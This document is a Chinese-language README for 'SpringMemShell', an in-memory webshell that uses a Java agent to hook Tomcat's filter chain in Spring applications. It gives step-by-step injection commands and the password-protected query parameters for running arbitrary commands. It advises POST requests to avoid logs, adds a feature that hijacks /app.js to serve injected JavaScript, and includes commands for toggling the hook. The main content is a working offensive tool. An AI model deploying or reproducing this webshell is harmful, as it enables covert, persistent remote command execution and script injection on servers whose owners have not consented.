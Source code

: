 # SpringMemShell



## 原理

和`tomcat`内存马的原理类似，也是劫持了一个`filter`，这里修改的是`org.apache.catalina.core.ApplicationFilterChain$internalDoFilter` <br/>





## 使用步骤

>   至少应该先访问一次，确保`org.apache.catalina.core.ApplicationFilterChain`被加载

1.  将三个jar包放入靶机中，这里使用了`vulhub/spring/CVE-2018-1273`作为例子

    ![image-20210317142736836](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210317142736836-20210409143828374.png)

2.  找到目标进程的pid（在docker中的pid通常为1）

    

3.  执行`java -jar javaAgent.jar [pid] "./mem.jar"`命令

    ![image-20210317143338934](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210317143338934-20210409143829176.png)

4.  注入成功，访问任意路由（不存在的也行） 加上参数`?password=stdout&model=exec&cmd=[command]`即可

    <font color='red'>get请求容易被日志记录下来，采用post请求相对来说不容易被发现</font>

    查看一下注入之后的`/proc/self/maps`

    ![image-20210317143739861](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210317143739861-20210409143830039.png)

    可以看到两个jar包进入了内存



## 效果

注入内存马之前

![image-20210317143205942](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210317143205942-20210409143831820.png)



注入之后

![image-20210317143804052](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210317143804052-20210409143833243.png)



由于是在`filter`层处理了用户请求，即使路由没有定义，也没有关系。



## 新功能+1

应hzgg的要求，加入新功能：静态页面劫持

本想着新建一条路由（在`Controller`层）去做，但是由于Spring的MVC结构，在没有`templates`的情况下不能直接渲染页面。而后听从建议，在`Filter`层就做好。

关键源代码如下

```java
String uri = request.getRequestURI();
if (uri.equals("/app.js")) {
    result += com.shiroha.springMem.SpringMemModels.readSource("1.js");
    response.getWriter().write(result);
    return;
}
```

当访问目标的`/app.js`的时候，在`filter`层就会被响应，返回`1.js`的内容。

```javascript
// 1.js
alert(1);
```



示例效果：

![image-20210323160138849](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210323160138849-20210409143833905.png)





## 新功能+2

需求增加：“既然你加载了这个agent，那要把卸载也做好啊”。

由于Java agent是注入到内存，并且修改了class，完全移除只有重启jar包这个方法（当然，也可能是我才疏学浅）。因此我想的解决方案是还原改写的方法。但是由于`javassist`编译的特殊性，完全还原是太不能做得到的。所以我换了个注入的函数`doFilter`，这个函数内容简单，还原方便，简直是不二选择。



效果演示

注入内存马之后：

![image-20210324181759730](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210324181759730-20210409143835147.png)

使用`?password=stdout&model=exit`，暂时解除修改的数据。

![image-20210324181912659](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210324181912659-20210409143835558.png)

再次执行命令就会失败：

![image-20210324181940085](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210324181940085-20210409143835909.png)

使用`?restart=restart`再次启用修改：

![image-20210324182015489](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210324182015489-20210409143836215.png)

再次可以执行命令：

![image-20210324182126043](https://gitee.com/ethustdout/pics/raw/master/uPic/image-20210324182126043-20210409143836484.png)

<font color='red'>这期间不会影响到业务。</font>

